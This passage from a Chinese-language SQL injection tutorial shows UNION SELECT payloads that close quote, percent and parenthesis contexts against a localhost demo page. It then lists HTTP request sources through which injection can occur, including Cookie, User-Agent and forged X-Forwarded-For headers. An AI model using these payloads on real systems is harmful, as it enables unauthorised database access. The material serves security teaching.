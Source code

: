 **绕过方法：将`%`先过滤之后`'`闭合，后面增加注入语句再进行闭合。**

语句如下：

```sql
http://localhost/new_demo/new.php?id=1%' union select 1,2,3,database(),5,6--+
```

或者：

```sql
http://localhost/new_demo/new.php?id=1%' union select 1,2,3,database(),5,6 and '%'='
```

4. 框架型（有各种符号干扰）

select * from news where id=('$id');

select * from news where (id='$id');

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4307.png)

使用以下可以绕过：

```sql
http://localhost/new_demo/new.php?id=1') union select 1,2,3,database(),5,6--+
http://localhost/new_demo/new.php?id=1') union select 1,2,3,database(),5,6 and ('=
```

##### 总结

由于开发者对于数据类型和 SQL 语句写法（框架写法）导致 SQL 注入拼接失败。

只能用网上的工具去跑sql语句或者手工猜语句，也可以使用源码来进行。

## PHP—MYSQL—数据请求方法

全局变量方法：GET POST SERVER FILES HTTP头等。

User-Agent：

使得服务器能够识别客户使用的操作系统，游览器版本等.（很多数据量大的网站中会记录客户使用的操作系统或浏览器版本等存入数据库中）。

Cookie：

网站为了辨别用户身份、进行session跟踪而储存在用户本地终端上的数据X-Forwarded-For：简称XFF头，它代表客户端，也就是HTTP的请求端真实的IP,（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库or某文件[通过修改XXF头可以实现伪造IP]）。

Rerferer：浏览器向 WEB 服务器表明自己是从哪个页面链接过来的。

Host：客户端指定自己想访问的WEB服务器的域名/IP 地址和端口号。

### GET/POST/Cookie/REQUEST都可以进行数据请求，发生注入

分别为Get、Post、Request：

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4308.png)

Cookie请求：

![](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/4309.png)
